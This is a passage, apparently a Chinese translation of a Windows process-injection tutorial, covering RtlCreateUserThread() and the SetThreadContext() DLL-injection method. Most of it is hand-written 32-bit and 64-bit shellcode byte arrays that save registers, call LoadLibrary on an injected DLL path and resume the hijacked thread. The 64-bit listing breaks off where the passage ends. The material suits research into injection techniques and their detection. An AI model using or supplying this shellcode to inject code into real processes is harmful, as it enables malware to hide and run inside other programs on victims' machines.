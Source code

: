 所以，如果mimikatz和Metasploit正在使用RtlCreateUserThread()…是的，那些家伙都了解自己的代码…按照他们的“建议”，使用RtlCreateUserThread()——特别是，如果你打算鼓捣一些比简单的“injectAllTheThings”程序更复杂的事情的时候。

完整的源代码，请参阅t_RtlCreateUserThread.cpp。

**SetThreadContext()**

这实际上是一个很酷的方法。通过在目标/远程进程中分配一大块内存，以便将特制代码注入目标/远程进程。而该代码是负责加载DLL的。

下面给出的是32位的代码。



```
0x68, 0xCC, 0xCC, 0xCC, 0xCC,   // push 0xDEADBEEF (placeholder for return address)
0x9c,                           // pushfd (save flags and registers)
0x60,                           // pushad
0x68, 0xCC, 0xCC, 0xCC, 0xCC,   // push 0xDEADBEEF (placeholder for DLL path name)
0xb8, 0xCC, 0xCC, 0xCC, 0xCC,   // mov eax, 0xDEADBEEF (placeholder for LoadLibrary)
0xff, 0xd0,                     // call eax (call LoadLibrary)
0x61,                           // popad (restore flags and registers)
0x9d,                           // popfd
0xc3                            // ret
```

对于64位代码，没有找到任何可用的代码，只好自己动手了，具体如下。



```
0x50,                                                       // push rax (save rax)
0x48, 0xB8, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // mov rax, 0CCCCCCCCCCCCCCCCh (placeholder for return address)
0x9c,                                                       // pushfq
0x51,                                                       // push rcx
0x52,                                                       // push rdx
0x53,                                                       // push rbx
0x55,                                                       // push rbp
0x56,                                                       // push rsi
0x57,                                                       // push rdi
0x41, 0x50,                                                 // push r8
0x41, 0x51,                                                 // push r9
0x41, 0x52,                                                 // push r10
0x41, 0x53,                                                 // push r11
0x41, 0x54,                                                 // push r12
0x41, 0x55,                                                 // push r13
0x41, 0x56,                                                 // push r14
0x41, 0x57,                                                 // push r15
0x68,0xef,0xbe,0xad,0xde,                                   // fastcall convention
0x48, 0xB9, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // mov rcx, 0CCCCCCCCCCCCCCCCh (placeholder for DLL path name)
0x48, 0xB8, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // mov rax, 0CCCCCCCCCCCCCCCCh (placeholder for LoadLibrary)
0xFF, 0xD0,                                                 // call rax (call LoadLibrary)
0x58,                                                       // pop dummy
0x41, 0x5F,                                                 // pop r15
0x41, 0x5E,                                                 // pop r14
0x41, 0x5D,                                                 // pop r13
0x41, 0x5C,                                                 // pop r12
0x41, 0x5B,                                                 // pop r11
0x41, 0x5A,                                                 // pop r10
0x41, 0x59,                                                 // pop r9
0x41, 0x58,                                                 // pop r8
0x5F,                                                       // pop rdi
0x5E,                                                       // pop rsi
0x5D,                                                       // pop rbp
0x5B,                                                       // pop rbx
0x5A,                                                       // pop rdx
0x59,                                                       // pop rcx
```